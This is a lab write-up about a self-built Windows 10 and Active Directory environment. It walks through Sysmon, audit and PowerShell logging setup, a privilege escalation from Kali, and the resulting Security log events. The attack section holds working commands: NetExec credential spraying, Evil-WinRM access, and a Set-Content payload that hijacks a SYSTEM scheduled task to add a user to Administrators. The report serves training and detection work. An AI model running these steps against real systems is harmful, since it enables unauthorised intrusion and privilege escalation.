## Cybersecurity Technical Assignment

##  1.Obtaining Administrative Access to Windows 10 and Collecting Indicators of Compromise

**Date of the main attack:** 24.07.2026  
**Laboratory domain:** `corp.test`  
**Network subnet:** `10.125.10.0/24`

> 	**Important before reading.**
> 	In the original screenshots, the passwords used in the assignment are obscured, and important segments in the screenshots are outlined with a red frame. Also, in the commands in this report, passwords are replaced with `<LAB_PASSWORD>` and `<SVC_BACKUP_PASSWORD>`.

## 1. Purpose, Objectives, and Scope of the Work

The purpose of the work is to create an isolated virtual environment, obtain access from Kali Linux to Windows 10 with local administrative privileges, document the complete attack path, and collect as much telemetry as possible from the victim machine.

The main scenario was implemented as the exploitation of an intentionally created configuration error:

```text
CORP\lab.user
→ permitted WinRM access
→ membership in CORP\IT-Support
→ Modify on C:\ProgramData\CorpBackup\backup.ps1
→ Scheduled Task executes this file as NT AUTHORITY\SYSTEM
→ modification of the local Administrators group
→ new WinRM logon with an administrative token
```

Additionally, a fully functional Active Directory environment was used. Through the delegated right to write the `servicePrincipalName` attribute, targeted Kerberoasting was performed against `svc_backup`, after which the weak password was recovered offline and verified through LDAP.

All actions were performed only in my own isolated lab. The scenario does not exploit a specific CVE: the root cause is a combination of unsafe permissions and configuration errors.

### Compliance with the Original Assignment

- VirtualBox was used;
- Kali Linux and Windows 10 have network access and are located in `10.125.10.0/24`;
- Windows Server 2022 was added as DC01 for the AD scenario;
- administrative access to WIN10 was obtained from Kali;
- Sysmon was configured with the sysmon-modular configuration;
- advanced PowerShell Logging was configured;
- Security, Sysmon, and PowerShell events, Windows Firewall logs, and DC01 events were collected;
- command parameters were explained for the main tools.


## 2. Laboratory Environment Diagram

| Host        | OS / role                              |      IP address | Purpose                       |
| ----------- | -------------------------------------- | --------------: | ----------------------------- |
| Kali        | Kali Linux                             | `10.125.10.10`  | attacking machine             |
| WIN10       | Windows 10 Pro, domain workstation     | `10.125.10.20`  | target of the main attack     |
| DC01        | Windows Server 2022, AD DS, DNS, KDC   | `10.125.10.30`  | `corp.test` domain controller |
| NAT gateway | VirtualBox NAT Network                 |  `10.125.10.1`  | Internet access               |

The VirtualBox NAT Network was named `SOC-LAB`. All three machines are connected to the same `10.125.10.0/24` segment. Windows 10 Pro was used on WIN10 because this edition supports joining an Active Directory domain.


*Figure 1 — List of the Kali Linux, WIN10, and DC01 virtual machines created in VirtualBox.*


*Figure 2 — Main resources and parameters of one of the virtual machines in VirtualBox.*


*Figure 3 — Additional parameters of the virtual machine and connected devices.*


*Figure 4 — NAT Network `SOC-LAB` configuration with the `10.125.10.0/24` subnet.*


### 2.1. DC01 Configuration

DC01 was configured as the `corp.test` domain controller, DNS server, and Kerberos KDC. It was assigned the static address `10.125.10.30`. The internal DNS zone serves domain names, while external requests are forwarded through a DNS forwarder.


*Figure 5 — Verification of the `DC01` host name and local administrator context.*


*Figure 6 — Static IP configuration of DC01: address `10.125.10.30`, gateway, and DNS.*


*Figure 7 — Installed Windows Server roles, including AD DS and DNS Server.*


*Figure 8 — Structure of the `corp.test` domain in Active Directory Users and Computers.*


*Figure 9 — `corp.test` DNS zone and domain service records.*


*Figure 10 — DNS forwarder configured on DC01 for external name resolution.*


*Figure 11 — Verification of internal and external DNS queries from DC01.*


### 2.2. WIN10 Configuration and Network Verification

WIN10 was assigned the static address `10.125.10.20`, gateway `10.125.10.1`, and DNS `10.125.10.30`. Because the client's only DNS server was DC01, shutting down the domain controller primarily caused a loss of DNS resolution; this explains the situation where the network parameters appeared correct, but web resources could not be opened by name.


*Figure 12 — Confirmation of the Windows 10 Pro edition on the victim machine.*


*Figure 13 — Verification of the `WIN10` workstation name.*


*Figure 14 — WIN10 IP configuration with address `10.125.10.20` and DNS `10.125.10.30`.*


*Figure 15 — Initial ICMP verification: some requests between DC01 and WIN10 were blocked.*


*Figure 16 — Verification of the DNS zone and DC01 address from WIN10.*


Initially, ICMP Echo Request from DC01 to WIN10 was blocked by Windows Firewall. Instead of completely disabling protection, a narrow rule was created:

```powershell
New-NetFirewallRule `
  -DisplayName "SOC-LAB ICMPv4 from DC01" `
  -Direction Inbound `
  -Protocol ICMPv4 `
  -IcmpType 8 `
  -RemoteAddress 10.125.10.30 `
  -Action Allow `
  -Profile Any
```

Parameters:
`-Direction Inbound` applies the rule to inbound traffic;
`-Protocol ICMPv4` and `-IcmpType 8` restrict it to Echo Request; 
`-RemoteAddress` allows packets only from DC01;
`-Profile Any` makes the rule active regardless of the current network profile. Windows Firewall was not disabled.


*Figure 17 — Creation of a narrow Windows Firewall rule for ICMP Echo Request from `10.125.10.30`.*


*Figure 18 — Successful bidirectional `ping` after adding the Windows Firewall rule.*


*Figure 19 — Resolution of the domain controller's service DNS name from WIN10.*


### 2.3. Joining WIN10 to the Domain

After DNS verification, the workstation was joined to `corp.test`. The current local account remained `WIN10\LabAdmin`, and the computer object appeared in Active Directory.

```cmd
systeminfo | findstr /I "Domain"
nltest /dsgetdc:corp.test
```

The first command passes the output of `systeminfo` to `findstr`; 
`/I` disables case sensitivity.
`nltest /dsgetdc:corp.test` asks Windows to find the controller of the specified domain and return its parameters.


*Figure 20 — Adding WIN10 to the `corp.test` domain.*


*Figure 21 — Windows message confirming successful joining to the domain.*


*Figure 22 — Verification of `hostname`, `whoami`, and domain membership on WIN10.*


*Figure 23 — WIN10 computer object in the Active Directory container.*


*Figure 24 — The `nltest /dsgetdc:corp.test` command finds DC01 at address `10.125.10.30`.*


## 3. Preparing WIN10 for Telemetry Collection

Monitoring was configured **before** creating the vulnerable scenario and beginning the attack. This is important because it makes it possible to distinguish preparatory administrative actions from subsequent attacker activity.

### 3.1. Sysmon

Sysmon was downloaded from Microsoft Sysinternals, and the configuration was downloaded from the `olafhartong/sysmon-modular` repository.

```powershell
New-Item -Path "C:\Tools\Sysmon" -ItemType Directory -Force
Set-Location "C:\Tools\Sysmon"
.\Sysmon64.exe -accepteula -i .\sysmonconfig.xml
Get-Service -Name "*Sysmon*"
wevtutil sl "Microsoft-Windows-Sysmon/Operational" /ms:268435456
```

- `New-Item ... -ItemType Directory` creates a directory, and `-Force` does not stop the command if it already exists;
- `-accepteula` accepts the Sysinternals EULA;
- `-i` installs the Sysmon service and driver and applies the XML configuration;
- the `*Sysmon*` wildcard finds the service regardless of its exact name;
- `wevtutil sl` changes the log settings, and `/ms:268435456` sets the maximum to 256 MiB.


*Figure 25 — Initial `WIN10\LabAdmin` administrative context before installing Sysmon.*


*Figure 26 — Creation of the `C:\Tools\Sysmon` directory.*


*Figure 27 — Sysmon files and the `sysmonconfig.xml` configuration in the working directory.*


*Figure 28 — Starting the Sysmon installation with the sysmon-modular configuration.*


*Figure 29 — Confirmation of the Sysmon service status after installation.*


*Figure 30 — Test launch of `notepad.exe` to verify telemetry.*


During the first verification, I encountered the following problem: `notepad.exe` did not appear as Sysmon Event ID 1, but Event ID 10 was present. After brief research on several forums, I concluded that PowerShell “started the process through Event 10.” Event ID 10 is **Process Access**, meaning one process opening another. The presence or absence of Event ID 1 is determined by the rules of the active Sysmon configuration. For an unambiguous verification, a `cmd.exe` process with a unique marker was created, after which Event ID 1 was found.


*Figure 31 — Sysmon Event ID 10 for one process accessing another; this is not a process creation event.*


*Figure 32 — Test launch of `cmd.exe` with a unique marker.*


*Figure 33 — Sysmon Event ID 1 confirms the creation of the test `cmd.exe` process.*


### 3.2. Native Process Creation Auditing

Windows Security Event ID 4688 was enabled separately:

```cmd
auditpol.exe /set "/subcategory:{0CCE922B-69AE-11D9-BED3-505054503030}" /success:enable
auditpol.exe /get "/subcategory:{0CCE922B-69AE-11D9-BED3-505054503030}"
reg.exe add "HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System\Audit" /v ProcessCreationIncludeCmdLine_Enabled /t REG_DWORD /d 1 /f
reg.exe query "HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System\Audit" /v ProcessCreationIncludeCmdLine_Enabled
cmd.exe /c "echo SOC-LAB-4688-TEST"
```

The GUID corresponds to the Process Creation subcategory; 
`/success:enable` logs successful launches. 
In `reg.exe add`: `/v` specifies the value name, 
`/t REG_DWORD` is the type,
`/d 1` is the enabled state,
`/f` overwrites without additional confirmation. 
The parameter allows the command line to be included in 4688. 
In the test, `/c` executes the command and terminates `cmd.exe`.


*Figure 34 — Enabled Audit Process Creation and command-line recording in Security Event ID 4688.*


*Figure 35 — Execution of the test command `cmd.exe /c "echo SOC-LAB-4688-TEST"`.*


*Figure 36 — Security Event ID 4688 with the test marker in the command line.*


### 3.3. Advanced PowerShell Logging

The following were enabled:

- Module Logging — mainly Event ID 4103;
- Script Block Logging — Event ID 4104;
- PowerShell Transcription — text transcripts with commands and output.

```powershell
$PSPolicy = "HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell"

New-Item -Path "$PSPolicy\ScriptBlockLogging" -Force | Out-Null
New-ItemProperty -Path "$PSPolicy\ScriptBlockLogging" `
  -Name EnableScriptBlockLogging -PropertyType DWord -Value 1 -Force | Out-Null

New-Item -Path "$PSPolicy\ModuleLogging\ModuleNames" -Force | Out-Null
New-ItemProperty -Path "$PSPolicy\ModuleLogging" `
  -Name EnableModuleLogging -PropertyType DWord -Value 1 -Force | Out-Null
New-ItemProperty -Path "$PSPolicy\ModuleLogging\ModuleNames" `
  -Name "*" -PropertyType String -Value "*" -Force | Out-Null

New-Item -Path "$PSPolicy\Transcription" -Force | Out-Null
New-ItemProperty -Path "$PSPolicy\Transcription" `
  -Name EnableTranscripting -PropertyType DWord -Value 1 -Force | Out-Null
New-ItemProperty -Path "$PSPolicy\Transcription" `
  -Name EnableInvocationHeader -PropertyType DWord -Value 1 -Force | Out-Null

gpupdate /force
```

`New-ItemProperty` creates or updates a registry value; 
a `DWord` with a value of `1` enables the corresponding policy;
`ModuleNames = *` covers all modules; `EnableInvocationHeader` adds time data to the transcript; 
`Out-Null` hides service output. 
A separate `OutputDirectory` directory was not specified, so the transcripts were created in the standard PowerShell location, as shown in the screenshots.


*Figure 37 — Registry settings for PowerShell Script Block, Module, and Transcription Logging.*


*Figure 38 — PowerShell Event ID 4103 generated by a test command.*


*Figure 39 — PowerShell Event ID 4104 with the text of the test code block.*


*Figure 40 — Execution of the `SOC-LAB-TRANSCRIPT-TEST` marker in PowerShell.*


*Figure 41 — Created PowerShell transcript file.*


*Figure 42 — Transcript contents with commands, user, host, and timestamps.*


### 3.4. WinRM, Task Scheduler, Security, and Windows Firewall Logs

The WinRM log was enabled separately from remote access itself:

```cmd
wevtutil sl "Microsoft-Windows-WinRM/Operational" /e:true
wevtutil sl "Microsoft-Windows-WinRM/Operational" /ms:67108864
wevtutil gl "Microsoft-Windows-WinRM/Operational"
```

`/e:true` activates the channel, 
`/ms:67108864` sets 64 MiB, and `gl` reads its configuration.
`Microsoft-Windows-TaskScheduler/Operational` was also enabled.


*Figure 43 — Enabling the WinRM Operational log and setting the maximum size to 64 MiB.*


*Figure 44 — Location of the `Microsoft-Windows-WinRM/Operational` log in Event Viewer.*


*Figure 45 — Enabling the Task Scheduler operational log through Event Viewer.*


*Figure 46 — Location of the `Microsoft-Windows-TaskScheduler/Operational` log.*


Audit Logon, Audit Special Logon, Audit Security Group Management, and Audit User Account Management were configured in Local Security Policy. Verification was performed with intentionally incorrect and correct passwords through `runas`, as well as by creating a temporary local group.

```cmd
runas /user:WIN10\LabAdmin cmd
```

`/user:` specifies the account context, and `cmd` is the program to be started after successful authentication.


*Figure 47 — Enabling auditing of successful and failed logons on WIN10.*


*Figure 48 — Enabling the Audit Special Logon category for 4672 events.*


*Figure 49 — Enabling auditing of local security group management.*


*Figure 50 — Enabling auditing of local account management.*


*Figure 51 — Applying local policies with the `gpupdate /force` command.*


*Figure 52 — Authentication test through `runas /user:WIN10\LabAdmin cmd`.*


*Figure 53 — Security Event ID 4625 after an intentionally incorrect password.*


*Figure 54 — Security Event ID 4624 after successful local authentication.*


*Figure 55 — Creation of a temporary local group and addition of `WIN10\LabAdmin` for an audit test.*


*Figure 56 — Security Event ID 4731 for the creation of a local security group.*


*Figure 57 — Security Event ID 4732 for adding a member to a local group.*


Logging of blocked packets and allowed connections was enabled for Windows Firewall. The file was verified with the command:

```powershell
Get-Content "C:\Windows\System32\LogFiles\Firewall\pfirewall.log" -Tail 30
```

`-Tail 30` outputs only the last 30 lines.


*Figure 58 — Windows Firewall log settings: dropped packets, successful connections, and file size.*


*Figure 59 — Verification of the WIN10 network profile; in the screenshot, the active profile is identified as `Public`.*


*Figure 60 — Contents of `pfirewall.log` read from PowerShell.*


> **Further visualization:** the collected Sysmon log was additionally analyzed in Sysmon View. Process trees and details of correlated events are provided in subsection 7.2.1.


## 4. Preparing Logging on DC01

A separate GPO, `SOC-LAB-DC-Audit`, linked to the Domain Controllers OU, was created for the domain controller. Kerberos Authentication Service, Kerberos Service Ticket Operations, Directory Service Changes, Directory Service Access, User Account Management, and Security Group Management were enabled.

Events 4662 and 5136 occur only when, in addition to the audit policy, a SACL is configured on the corresponding AD object. Therefore, the SACL for `svc_backup` was created separately during scenario preparation.


*Figure 61 — Creation and linking of the `SOC-LAB-DC-Audit` GPO to the Domain Controllers OU.*


*Figure 62 — Audit Kerberos Authentication Service policy on DC01.*


*Figure 63 — Audit Kerberos Service Ticket Operations policy on DC01.*


*Figure 64 — Audit Directory Service Changes policy on DC01.*


*Figure 65 — Audit Directory Service Access policy on DC01.*


*Figure 66 — Audit User Account Management policy on DC01.*


*Figure 67 — Audit Security Group Management policy on DC01.*


*Figure 68 — Application of the domain policy with the `gpupdate /force` command.*


*Figure 69 — Result of `auditpol.exe /get /category:*` after applying the GPO.*


## 5. Creating the Training Vulnerable Scenario

This section describes administrative actions that **intentionally** created the attack path. They are not attacker actions.

### 5.1. Active Directory Objects

The following were created in `OU/SOC-LAB`:

- the `CORP\IT-Support` group;
- the regular user `CORP\lab.user`;
- the service account `CORP\svc_backup`;
- membership of `lab.user` in `IT-Support`.

A weak laboratory password and `Password never expires` were used for `svc_backup`. The account was not added to Domain Admins.


*Figure 70 — The `SOC-LAB` OU created for laboratory objects.*


*Figure 71 — Created `IT-Support` domain security group.*


*Figure 72 — Created `lab.user` domain user.*


*Figure 73 — Created `svc_backup` service account.*


*Figure 74 — Adding `lab.user` to the `IT-Support` group.*


### 5.2. SACL and Delegated WriteSPN Right

A SACL was added to `svc_backup` to log writes to the `servicePrincipalName` attribute. Through a separate DACL operation, the `IT-Support` group was granted the right to write this attribute. The SACL determines **what to log**; the DACL determines **who has the right to perform the operation**.


*Figure 75 — SACL on `svc_backup` for auditing changes to the `servicePrincipalName` attribute.*


*Figure 76 — Delegating to the `IT-Support` group the right to write `servicePrincipalName` on the `svc_backup` object.*


BloodHound CE displayed the relationship as `GenericWrite`, although the right used in practice was limited to writing `servicePrincipalName`. This does not change the actual scenario: `lab.user`, having inherited the right through `IT-Support`, could add an SPN to `svc_backup`.


### 5.3. WinRM for `lab.user`

The `CORP\IT-Support` group was added to the local Remote Management Users group on WIN10. PowerShell Remoting was then enabled:

```powershell
Enable-PSRemoting -Force
Set-PSSessionConfiguration -Name Microsoft.PowerShell -ShowSecurityDescriptorUI
Test-WSMan localhost
```

`Enable-PSRemoting -Force` starts and configures WinRM, creates the WinRM listener, session configurations, and Windows Firewall exceptions. 

On a Windows client, the behavior of the Windows Firewall rule depends on the network profile.

`Set-PSSessionConfiguration` opens the security descriptor configuration interface for the default endpoint; the group was granted Execute (Invoke). 

After that, the Windows Firewall rule was restricted to `10.125.10.10`. 
`Test-WSMan localhost` confirmed a WS-Management response. The standard HTTP port for WinRM is TCP 5985.


*Figure 77 — Adding `CORP\IT-Support` to the local Remote Management Users group on WIN10.*


*Figure 78 — Enabling PowerShell Remoting with the `Enable-PSRemoting -Force` command.*


*Figure 79 — Granting the `IT-Support` group Full Control (All Operations) on the `Microsoft.PowerShell` endpoint.*


*Figure 80 — Restricting the WinRM rule in Windows Firewall to the Kali address `10.125.10.10`.*


*Figure 81 — Successful local WinRM verification with the `Test-WSMan localhost` command.*


### 5.4. Scheduled Task and Incorrect NTFS ACL

A directory and initial safe script were created:

```powershell
New-Item -Path "C:\ProgramData\CorpBackup" -ItemType Directory -Force

$Time = Get-Date -Format "yyyy-MM-dd HH:mm:ss"
Add-Content -Path "C:\ProgramData\CorpBackup\backup.log" `
  -Value "$Time - Backup task executed"
```

Control run:

```cmd
powershell.exe -NoProfile -ExecutionPolicy Bypass -File "C:\ProgramData\CorpBackup\backup.ps1"
```

`-NoProfile` does not load the user profile;
`-ExecutionPolicy Bypass` applies only to this process and does not change the global policy;
`-File` specifies the script.


*Figure 82 — Creation of the `C:\ProgramData\CorpBackup` directory.*


*Figure 83 — Initial safe contents of `backup.ps1`.*


*Figure 84 — Manual test run of `backup.ps1` through `powershell.exe`.*


*Figure 85 — Confirmation that, without `-ExecutionPolicy Bypass`, the local policy blocked the test run.*


A `\Corp Backup Task` was created in Task Scheduler. It repeats every five minutes, runs as `NT AUTHORITY\SYSTEM` with the highest privileges, and launches the same `backup.ps1`.


*Figure 86 — General tab of `\Corp Backup Task`: running as `NT AUTHORITY\SYSTEM` with the highest privileges.*


*Figure 87 — `\Corp Backup Task` trigger: execution repeats every five minutes.*


*Figure 88 — Task action: launching `powershell.exe` with arguments to execute `backup.ps1`.*


*Figure 89 — New entry in `backup.log` after a control run of the Scheduled Task.*


After verifying operability, an excessive ACE was intentionally added:

```cmd
icacls "C:\ProgramData\CorpBackup\backup.ps1" /grant "CORP\IT-Support:(M)"
icacls "C:\ProgramData\CorpBackup\backup.ps1"
```

`/grant` adds permissions without removing previous explicit grants. `M` means **Modify**, which includes reading, execution, writing, and deletion. The root cause of privilege escalation:

```text
a low-privileged group can modify the file
+ a privileged Scheduled Task regularly executes this file as SYSTEM
= execution of controlled code with local SYSTEM privileges
```


*Figure 90 — Granting the `CORP\IT-Support` group the `Modify` permission on `backup.ps1`.*


*Figure 91 — Verification of the file ACL: the `CORP\IT-Support:(M)` ACE is present.*


### 5.5. Preparing Kali and BloodHound

Kali was assigned the address `10.125.10.10`. NetExec, Evil-WinRM, the BloodHound CE Python ingestor, Impacket scripts, bloodyAD, Hashcat/John, and BloodHound CE were installed.

```bash
sudo apt update
sudo apt install -y netexec evil-winrm bloodhound-ce-python impacket-scripts bloodyad hashcat john
```

`-y` automatically confirms package installation.


*Figure 92 — Static IP configuration of Kali Linux: `10.125.10.10/24`, gateway `10.125.10.1`, DNS `10.125.10.30`.*



*Figure 93 — BloodHound CE visualizes the path `lab.user → IT-Support → GenericWrite/WriteSPN → svc_backup`.*

## 6. Main Attack on WIN10

### 6.1. Recording the Start and Network Scanning

```bash
mkdir -p ~/SOC-LAB-Attack
cd ~/SOC-LAB-Attack
date | tee attack_start.txt

nmap -Pn -p 53,88,389,445 10.125.10.30
nmap -Pn -p 5985 10.125.10.20
```

`mkdir -p` creates the directory without an error if it exists;
`tee` simultaneously displays and saves the time. 
In Nmap, `-Pn` skips the host discovery stage and assumes the host is active;
`-p` restricts scanning to specific ports. 
DNS 53, Kerberos 88, LDAP 389, and SMB 445 were checked on DC01, and WinRM HTTP 5985 was checked on WIN10.


*Figure 94 — Creation of the attack working directory and recording of the start time.*


*Figure 95 — Verification of the network reachability of WIN10 and DC01 from Kali.*


*Figure 96 — Nmap scanning of DNS, Kerberos, LDAP, and SMB on DC01.*


*Figure 97 — Nmap confirms the open WinRM HTTP port 5985 on WIN10.*


### 6.2. Controlled Credential Verification

To obtain both a failed and a successful logon event, a short wordlist was created:

```bash
printf '%s\n' 'WrongPass2026!' '<LAB_PASSWORD>' > lab_passwords.txt
nxc winrm 10.125.10.20 -d corp.test -u lab.user -p lab_passwords.txt
```

`printf '%s\n'` writes each value on a separate line; `>` overwrites the file. In NetExec: `winrm` selects the protocol, `-d` is the domain, `-u` is the user, and `-p` is the password or a file containing a list. The result contained one failed and one successful attempt.


*Figure 98 — Creation of a controlled two-line password wordlist for NetExec.*


*Figure 99 — NetExec records one failed and one successful WinRM authentication for `lab.user`.*

### 6.3. Initial WinRM Access

```bash
evil-winrm -i 10.125.10.20 -u 'CORP\lab.user' -p '<LAB_PASSWORD>'
```

`-i` specifies the target address, `-u` the domain account, and `-p` the password. After logging in, the following were executed:

```powershell
hostname
whoami
whoami /groups
whoami /priv
net localgroup Administrators
```

The result confirmed `WIN10`, the user `corp\lab.user`, membership in `CORP\IT-Support`, and the absence of `lab.user` from the local Administrators group. Therefore, the initial access was not administrative.


*Figure 100 — Successful interactive Evil-WinRM session on WIN10.*


*Figure 101 — Verification of the identity, groups, and privileges of `CORP\lab.user` in the initial session.*


*Figure 102 — Before exploitation, `CORP\lab.user` is absent from the local Administrators group.*


### 6.4. Discovering the Weak ACL

```powershell
Get-Content "C:\ProgramData\CorpBackup\backup.ps1"
icacls "C:\ProgramData\CorpBackup\backup.ps1"
```

`Get-Content` reads the script; 
`icacls` without modifying switches displays the DACL. 
`CORP\IT-Support:(M)` was discovered, and `lab.user` is a member of this group.


*Figure 103 — Initial contents of `C:\ProgramData\CorpBackup\backup.ps1` read through WinRM.*


*Figure 104 — The `backup.ps1` ACL shows the `Modify` right for the `CORP\IT-Support` group.*


### 6.5. Collecting the AD Graph Before Exploitation

```bash
bloodhound-ce-python \
  -u lab.user -p '<LAB_PASSWORD>' \
  -d corp.test -ns 10.125.10.30 -dc dc01.corp.test \
  -c All --zip -op preattack
```

In the current package, the name of the prefix option may differ (`-op`/`--outputprefix`); 
the actual command and successful ZIP creation are confirmed by the screenshot.
`-u/-p` are credentials,
`-d` is the domain,
`-ns` is the DNS server,
`-dc` is the specific DC,
`-c All` is the set of collection methods,
`--zip` archives the results. 
The collector found the domain, two computers, users, groups, GPOs, and ACL relationships.


*Figure 105 — Collection of BloodHound CE data into a ZIP.


### 6.6. Overwriting the Script and Execution as SYSTEM

First, a backup copy was created:

```powershell
Copy-Item "C:\ProgramData\CorpBackup\backup.ps1" `
  "$env:USERPROFILE\Documents\backup-original.ps1"
```

`$env:USERPROFILE` expands to the current user's profile.

The file was then overwritten:

```powershell
Set-Content -Path "C:\ProgramData\CorpBackup\backup.ps1" -Value `
'whoami | Out-File "C:\ProgramData\CorpBackup\execution-context.txt"; net localgroup Administrators "CORP\lab.user" /add 2>&1 | Out-File "C:\ProgramData\CorpBackup\privesc-result.txt"'
```

`Set-Content` replaces the file contents.
`whoami` records the execution context.
`net localgroup ... /add` adds the user to the local group.
`2>&1` combines stderr with stdout, and `Out-File` saves the result.


*Figure 106 — Creation of a backup copy of the initial `backup.ps1` in the `lab.user` profile.*


*Figure 107 — Overwriting `backup.ps1` with payload commands to record the SYSTEM context and add the user to Administrators.*


The periodic task trigger did not execute within the scheduled five-minute interval, so to complete the controlled scenario, `\Corp Backup Task` was started manually through Task Scheduler. The initiation method did not change the execution context: as configured, the task action ran as `NT AUTHORITY\SYSTEM`. Later, a related chain of events 110, 100, 129, and 201 for `15:43:26–15:43:31` was found in the `Microsoft-Windows-TaskScheduler/Operational` log, confirming manual initiation, SYSTEM context, creation of `powershell.exe`, and successful completion of the action.

After manually starting the Scheduled Task, the artifacts were verified:

```powershell
Test-Path "C:\ProgramData\CorpBackup\execution-context.txt"
Get-Content "C:\ProgramData\CorpBackup\execution-context.txt"
Get-Content "C:\ProgramData\CorpBackup\privesc-result.txt"
net localgroup Administrators
```

`Test-Path` returned `True`; 
`execution-context.txt` contained `nt authority\system`; `privesc-result.txt` and the group membership, in turn, confirm the successful addition of `CORP\lab.user`.


*Figure 108 — `Test-Path` confirms the creation of `execution-context.txt` after starting the Scheduled Task.*


*Figure 109 — The `execution-context.txt` file contains `nt authority\system`.*


*Figure 110 — `privesc-result.txt` and the Administrators list confirm the addition of `CORP\lab.user`.*


### 6.7. Confirmation of Administrative Access

Group membership changed after the initial WinRM session was created. Because the access token is formed during logon, the session was terminated and a new one was created. In the new session, the `net session` command executed without `System error 5`, which confirmed the administrative context. An additional suitable verification is `fltmc`, which returns `Access is denied` for a regular user.


*Figure 111 — A new Evil-WinRM session after the group membership change executes the administrative `net session` command.*


## 7. Detection and Analysis of Traces on WIN10

### 7.1. Security Log

The failed NetExec verification generated Event ID 4625 with Logon Type 3 and Source Network Address `10.125.10.10`. The successful WinRM logon generated Event ID 4624 with the same source and user `CORP\lab.user`. Event 4732 is the strongest evidence of escalation: Subject — `SYSTEM`, Member — `CORP\lab.user`, Group — `BUILTIN\Administrators`.


*Figure 112 — Security Event ID 4625: failed network logon, Logon Type 3, from source `10.125.10.10`.*


*Figure 113 — Security Event ID 4624: successful network logon, Logon Type 3, by `CORP\lab.user` from Kali.*


*Figure 114 — Security Event ID 4732: SYSTEM added `CORP\lab.user` to `BUILTIN\Administrators`.*


After adding `CORP\lab.user` to the local Administrators group, a new WinRM session was created. Security Event ID 4624 at `15:53:45` shows a successful network logon by `CORP\lab.user` from Kali: `Logon Type 3`, `Elevated Token: Yes`, Source Network Address `10.125.10.10`, and Logon ID `0x9F6B3D`.



*Figure 115 — Security Event ID 4624: repeated network logon by `CORP\lab.user` after privilege escalation. The event contains `Logon Type 3`, `Elevated Token: Yes`, the Kali address `10.125.10.10`, and Logon ID `0x9F6B3D`.*

Event 4672, recorded in the same second, has the same Logon ID `0x9F6B3D` and a list of sensitive privileges, including `SeDebugPrivilege`, `SeBackupPrivilege`, `SeRestorePrivilege`, `SeTakeOwnershipPrivilege`, and `SeImpersonatePrivilege`. It is not independent evidence of a group membership change, but in correlation with 4624, it confirms that the new `CORP\lab.user` session was assigned a privileged token.

